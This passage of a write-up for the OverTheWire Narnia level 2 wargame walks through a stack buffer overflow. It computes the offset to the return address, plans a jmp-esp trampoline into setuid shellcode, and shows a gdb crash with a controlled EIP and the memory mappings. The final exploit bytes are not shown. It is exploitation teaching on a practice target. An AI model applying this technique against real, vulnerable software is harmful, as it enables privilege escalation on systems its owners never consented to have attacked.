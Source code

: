As we can see from the above snippet, program crashed when $eip = 0x38383838, which
means it tried to return to the address 0x38383838 and didn't find anything there.
So this means that the return pointer can hold an attacker controlled value. With 
the aid of a python interpreter, one can easily find out that 0x38 is the '8' character.

    >>> chr(0x38)
    '8'

Thus, our padding to reach the return pointer when overflowing the buffer should be this

    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ1111222233334444555566667777

and has length 132 bytes. The payload's length should be 132 + 4 (for the return address), 
meaning 136 bytes. Because of the fact the we need to return inside a stack address for 
the purpose of hitting the shellcode, and this requires a guessing of this specific address, 
a simple exploitation strategy could be overflowing the buffer just before it touches the 
return pointer, find a "jump $esp" instruction inside the loaded libc library (which 
actually pops $esp and jumps there), followed by shellcode with setuid setting.
So instead of redirecting execution, we return to a "jmp $esp" intstruction which will be 
executed. This way our exploit becomes more reliable, because it doesn't require any guessings.
The snippet below can show how one can find the opcode (0xffe4) of "jmp $esp" inside gdb. 

    (gdb) run $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43")
    Starting program: /narnia/narnia2 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43")
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Program received signal SIGSEGV, Segmentation fault.
    0x43434343 in ?? ()
    (gdb) info proc mappings 
    process 1724309
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset  Perms   objfile
        0x8048000  0x8049000     0x1000        0x0  r--p   /narnia/narnia2
        0x8049000  0x804a000     0x1000     0x1000  r-xp   /narnia/narnia2
        0x804a000  0x804b000     0x1000     0x2000  r--p   /narnia/narnia2
        0x804b000  0x804c000     0x1000     0x2000  rw-p   /narnia/narnia2
        0x804c000  0x806e000    0x22000        0x0  rw-p   [heap]
        0xf7d7d000 0xf7da0000    0x23000        0x0  r--p   /usr/lib/i386-linux-gnu/libc.so.6
        0xf7da0000 0xf7f27000   0x187000    0x23000  r-xp   /usr/lib/i386-linux-gnu/libc.so.6
        0xf7f27000 0xf7fac000    0x85000   0x1aa000  r--p   /usr/lib/i386-linux-gnu/libc.so.6
        0xf7fac000 0xf7fae000     0x2000   0x22f000  r--p   /usr/lib/i386-linux-gnu/libc.so.6
        0xf7fae000 0xf7faf000     0x1000   0x231000  rw-p   /usr/lib/i386-linux-gnu/libc.so.6
        0xf7faf000 0xf7fb9000     0xa000        0x0  rw-p   
        0xf7fc1000 0xf7fc3000     0x2000        0x0  rw-p   
        0xf7fc3000 0xf7fc7000     0x4000        0x0  r--p   [vvar]
        0xf7fc7000 0xf7fc9000     0x2000        0x0  r-xp   [vdso]
        0xf7fc9000 0xf7fca000     0x1000        0x0  r--p   /usr/lib/i386-linux-gnu/ld-linux.so.2
        0xf7fca000 0xf7fed000    0x23000     0x1000  r-xp   /usr/lib/i386-linux-gnu/ld-linux.so.2
        0xf7fed000 0xf7ffb000     0xe000    0x24000  r--p   /usr/lib/i386-linux-gnu/ld-linux.so.2
        0xf7ffb000 0xf7ffd000     0x2000    0x31000  r--p   /usr/lib/i386-linux-gnu/ld-linux.so.2
        0xf7ffd000 0xf7ffe000     0x1000    0x33000  rw-p   /usr/lib/i386-linux-gnu/ld-linux.so.2
        0xfffdd000 0xffffe000    0x21000        0x0  rwxp   [stack]

[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html